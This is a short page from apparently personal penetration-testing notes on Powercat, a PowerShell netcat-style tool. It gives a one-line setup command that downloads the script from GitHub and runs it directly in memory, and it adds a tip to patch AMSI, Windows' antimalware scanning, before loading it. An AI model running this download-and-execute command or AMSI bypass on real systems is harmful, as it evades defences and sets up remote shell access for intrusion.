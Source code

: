 ```yaml
---
title: Powercat
---
```


Project: [github.com/besimorhino/powercat](https://github.com/besimorhino/powercat)

# Setup

Load into PowerShell.

~~~ powershell
iwr https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1 | iex
powercat -h
~~~

> **OpSec**: [[notes/ad/evasion-amsi|Patch AMSI]] before loading Powercat.
